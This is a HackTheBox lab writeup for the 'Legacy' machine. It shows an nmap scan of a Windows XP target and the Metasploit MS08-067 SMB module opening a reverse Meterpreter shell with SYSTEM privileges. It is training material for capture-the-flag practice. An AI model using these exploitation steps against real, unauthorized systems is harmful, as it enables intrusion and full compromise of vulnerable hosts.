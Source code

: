```yaml
---
title: Legacy writeup
date: 2022-06-22 20:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "windows", "metasploit"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/legacy
image: # Thumbnail 
  src: Legacy.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary 
This was a very easy box that only required some basic google skills aswell as some knowledge of metasploit. let's take a look.

## Foothold & Privesc
Let's start out by doing an nmap port scan. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Legacy]
└─$ nmap -sC -sV 10.129.227.181
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 00:39 CEST
Nmap scan report for 10.129.227.181
Host is up (0.099s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 4d22h27m49s, deviation: 2h07m16s, median: 4d20h57m49s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:96:d1:40 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-06-28T01:37:03+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds
```
The nmap scan reveals that the machine is running Windows XP as its' OS. Ports 139 and 445 are also open, which are used for SMB. I initially thought the machine would be vulnerable to eternalblue, and indeed it is, but the metasploit module for Eternalblue that I found only had payloads for x64 architecture, which the target machine was not using. Searching for related vulnerabilities points us towards the metasploit module found described [here](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/). let's try to use it.
```console
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.17.182:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.17.182:4444 -> 10.129.227.181:1032) at 2022-06-23 01:03:26 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
Rooted!
